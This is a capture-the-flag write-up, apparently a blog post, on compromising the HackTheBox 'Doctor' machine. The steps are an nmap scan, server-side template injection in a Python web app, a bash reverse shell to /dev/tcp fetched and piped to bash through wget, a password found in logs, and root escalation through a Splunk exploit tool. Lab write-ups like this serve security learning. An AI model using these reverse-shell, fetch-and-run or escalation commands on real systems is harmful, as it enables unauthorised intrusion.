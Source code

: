 ```yaml
---
layout: post
title: HackTheBox - Doctor
date: 2021-02-07 14:37:03 +0100
tags: [HackTheBox]
image: /assets/img/htb/machines/linux/easy/doctor/Doctor.png
---
```


## Foothold

### Nmap scan (open ports)

{% highlight bash %}
$ nmap -min-rate 5000 --max-retries 1 -sC -sV -p- 10.10.10.209
Starting Nmap 7.91 ( https://nmap.org ) at 2020-12-16 10:19 CET
Nmap scan report for doctors.htb (10.10.10.209)
Host is up (0.094s latency).
Not shown: 65532 filtered ports
PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 59:4d:4e:c2:d8:cf:da:9d:a8:c8:d0:fd:99:a8:46:17 (RSA)
|   256 7f:f3:dc:fb:2d:af:cb:ff:99:34:ac:e0:f8:00:1e:47 (ECDSA)
|_  256 53:0e:96:6b:9c:e9:c1:a1:70:51:6c:2d:ce:7b:43:e8 (ED25519)
80/tcp   open  http     Apache httpd 2.4.41 ((Ubuntu))
| http-server-header: 
|   Apache/2.4.41 (Ubuntu)
|_  Werkzeug/1.0.1 Python/3.8.2
| http-title: Doctor Secure Messaging - Login
|_Requested resource was http://doctors.htb/login?next=%2F
8089/tcp open  ssl/http Splunkd httpd
| http-robots.txt: 1 disallowed entry 
|_/
|_http-server-header: Splunkd
|_http-title: splunkd
| ssl-cert: Subject: commonName=SplunkServerDefaultCert/organizationName=SplunkUser
| Not valid before: 2020-09-06T15:57:27
|_Not valid after:  2023-09-06T15:57:27
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
{% endhighlight %}

### Apache httpd 2.4.41 (port 80)

When we go to [http://10.10.10.209/](http://10.10.10.209/), one of the first thing we can notice is: 

![web](/assets/img/htb/machines/linux/easy/doctor/web.png)

After adding `doctors.htb` to `/etc/hosts` we have a totally different page:

![doctors.htb domain](/assets/img/htb/machines/linux/easy/doctor/doctors_domain.png)

### SSTI (Server Side Template Injection)

If we check the source code of the main page, we can see there is a link to [http://doctors.htb/archive](http://doctors.htb/archive) (which is commented):

![/archive](/assets/img/htb/machines/linux/easy/doctor/source_archive.png)

After trying many types of injections in [http://doctors.htb/post/new](http://doctors.htb/post/new), we can figure out that the website is vulnerable to templates injections.

As we can see:

![payload in new messages](/assets/img/htb/machines/linux/easy/doctor/post.png)

The payload above leads to this render result in [http://doctors.htb/archive](http://doctors.htb/archive)

![SSTI render result](/assets/img/htb/machines/linux/easy/doctor/SSTI.png)

Now let's do a **reverse shell**.

### Reverse shell

Thanks to the payload above, we can now call give to [http://doctors.htb/archive](http://doctors.htb/archive) another GET parameter: "**include**".

> We inject python templates because the target server is a **Werkzeug server version 1.0.1** using **Python version 3.8.2**

![SSTI payload add input GEt paremeter](/assets/img/htb/machines/linux/easy/doctor/SSTI_payload.png)

This parameter takes a shell command that we want to run, for instance `ls`:

![/archive?input=ls](/assets/img/htb/machines/linux/easy/doctor/input_ls.png)

In order to have a reverse shell, I created a file called **reverse.sh**:

{% highlight bash %}
bash -i >& /dev/tcp/10.10.14.9/4444 0>&1
{% endhighlight %}

On my machine, I ran an HTTP Server:

{% highlight bash %}
$ python3 -m http.server
{% endhighlight %}

If we type this URL on our browser, we have access to a shell on the target server with the user **web**:

`http://doctors.htb/archive?input=wget -O - http://10.10.14.9:8000/reverse.sh | bash`

![reverse shell as web user](/assets/img/htb/machines/linux/easy/doctor/reverse_shell.png)

## User (shaun)

There is another user on the machine: **shaun**.

{% highlight bash %}
web@doctor:~$ cd /home
web@doctor:/home$ ls
shaun
web
web@doctor:/home$ cd shaun
web@doctor:/home/shaun$ ls
user.txt
{% endhighlight %}

I used [`linpeas.sh`](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS), then I saw this interesting log:

![reset password](/assets/img/htb/machines/linux/easy/doctor/reset_password.png)

{% highlight bash %}
web@doctor:/var/backups$ su - shaun
su - shaun
Password: Guitar123
id
uid=1002(shaun) gid=1002(shaun) groups=1002(shaun)
# Spawning a TTY Shell
python3 -c "import pty; pty.spawn('/usr/bin/bash')"
shaun@doctor:~$
shaun@doctor:~$ cat user.txt
cat user.txt
0d5dec4a853e2f82567c3d0792b7a679
{% endhighlight %}

## Root

Remember [nmap scan](#nmap-scan-open-ports) ? We saw that `splunk` is currently running on the target sever: 

![ps auxf - splunkd](/assets/img/htb/machines/linux/easy/doctor/ps_auxf_splunkd.png)

![uncommon passwd files](/assets/img/htb/machines/linux/easy/doctor/uncommon_passwd_files.png)

By looking for _"splunk privilege escalation"_, we find this repo [https://github.com/cnotin/SplunkWhisperer2](https://github.com/cnotin/SplunkWhisperer2).

`PySplunkWhisperer2_remote.py` allows us to run a remote payload as `root`:

![Splunk Whispere](/assets/img/htb/machines/linux/easy/doctor/pysplunk.png)

> Payload: `python3 PySplunkWhisperer2_remote.py --host 10.10.10.209 --lhost 10.10.14.9 --username shaun --password Guitar123 --payload "cat /root/root.txt > /dev/shm/flag; chmod 444 /dev/shm/flag"`

Finally we got the flag:

![Root flag](/assets/img/htb/machines/linux/easy/doctor/root_flag.png)

___

## Useful links

- [PayloadsAllTheThings - Server Side Template Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection)
- [SplunkWhisperer2](https://github.com/cnotin/SplunkWhisperer2)
